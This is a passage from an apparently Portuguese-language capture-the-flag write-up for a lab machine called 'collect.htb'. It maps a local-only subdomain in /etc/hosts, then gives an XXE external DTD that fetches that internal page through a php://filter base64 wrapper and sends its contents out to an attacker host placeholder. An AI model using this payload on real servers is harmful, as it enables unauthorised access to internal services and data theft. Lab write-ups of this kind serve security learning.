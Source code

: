 
Vemos que existe o subdominio "**developers-localhost.collect.htb**", adicionando ele no "**/etc/hosts**" do nosso sistema, conseguimos acessa-lo.

```
sudo nano /etc/hosts

192.168.1.6    collect.htb    forum.collect.htb    developers-localhost.collect.htb
#insert this line in /etc/hosts | replace 192.168.1.6 with the machine's ip 
```

<figure><img src="./assets/30.png" alt=""><figcaption></figcaption></figure>

Acessando o subdominio "**developers-localhost.collect.htb**":

<figure><img src="./assets/31.png" alt=""><figcaption></figcaption></figure>

Vemos que ele está acessivel apenas localmente, então podemos abusar do XXE para fazermos uma requisição para esse subdominio internamente.

Para isso, precisamos editar nosso "**xpl.dtd**", subistituindo "**/etc/hosts**" por "**http://developers-localhost.collect.htb/**"

**File xpl.dtd:**

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=http://developers-localhost.collect.htb/">
<!ENTITY % payload "<!ENTITY &#37; run SYSTEM 'http://<your-ip>/?leak=%file;'>">
%payload;
%run;
```
